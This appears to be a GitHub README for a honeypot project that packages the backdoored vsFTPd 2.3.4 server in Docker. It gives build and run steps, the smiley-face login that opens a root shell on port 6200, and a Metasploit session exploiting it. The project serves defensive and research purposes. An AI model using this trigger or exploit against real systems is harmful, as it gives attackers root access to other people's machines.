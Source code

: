 ### vsFTPd 2.3.4

As this is in the Honey Net branch, you should assume that it is meant for creation of Honey Pots only. 

You should never expose this build in your actual network unless you take proper precautions.

This is a build for the original backdoored vsFTPd 2.3.4 software.

The way the exploit works is by sending any login string with a smiley face at the end such as:

USER nks:)
PASS noclue

This will break out a backdoor on port 6200 which you can then connect to and get access to the system.

The way it was backdoored was with rogue functions in 2 .C files and then re-uploaded to the original hosting website, until someone found it.

Since this is a well known vulnerability, it will do well in a Honey Pot, more specifically, it will be useful to filter out typical scanners from someone that is actually trying to exploit your network. 

When this kind of action is logged in whatever solution you want to use, you can blacklist that IP before it continues attacking the rest of your network. 

Since attackers usually go for weaker targets first, they should focus on this kind of application before anything else, which will give you ample time to prepare and blacklist. This can also serve for re-search purposes, as depending on your logging software, you can log what the attacker is doing once they gain access.

INSTRUCTIONS:

1. Download all of the files from the repository, including the vulnerable application.

The way I do this that is most efficient is right clicking on the Download button for example at the .tar.gz app and clicking on Copy Link Location.

Then you can go to your server and download it via:

```
wget https://github.com/n-ks/Honey-Net/raw/master/FTP/vsFTPd%202.3.4/vsftpd-2.3.4-infected.tar.gz (Re-Do this yourself, the URL here might change)
```

2. Once you have all of your files in one location, extract the .tar.gz with:

tar xvf vsftpd-2.3.4-infected.tar.gz

3. Everything you need should be there, now can you build your Docker Image:

```
docker build -t vsftpd.2.3.4 .
```

Note that since it will install,update,upgrade stuff this can take a while. (Some errors are also normal, especially in the manual build)

4. After your image is successfully built, you can raise it with:

```
docker run -itd -p 21:21 -p 6200:6200 vsftpd.2.3.4
```

Note that if you do not want this application to be vulnerable and only want attackers to try and break in and not actually succeed you can remove -p 6200:6200. (The actual backdoor port) So basically the Docker will be exploited and will open a 6200 port but not to your host system.

5. To enter your new container and install whatever logging system you want, you can do the following:

```
docker exec -u 0 -it <container-name> bash
```

6. Congratulations, you have a working vulnerable app.

NOTE: The OS on which this was tested was Ubuntu 16.04 LTS with Docker CE installed.
NOTE 2: The image used from Docker Hub is Debian based, so any logging solution that you can think of that will work with Debian will probably work for you, only thing to keep in mind is the ports you'll need to add for said solution.
NOTE 3: Make sure you limit your containers resources and security so it doesn't spread on your host in any way.

Result:

```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.1.3
RHOST => 192.168.1.3
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.1.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.3:21 - USER: 331 Please specify the password.
[+] 192.168.1.3:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.4:43985 -> 192.168.1.3:6200) at 2018-05-30 11:58:15 +0200

id
uid=0(root) gid=0(root) groups=0(root)
^C
Abort session 1? [y/N]  y

[*] 192.168.1.3 - Command shell session 1 closed.  Reason: User exit
msf exploit(unix/ftp/vsftpd_234_backdoor) > 
```

I've used one of the more general exploits to get in, with MSF, which was successfull.
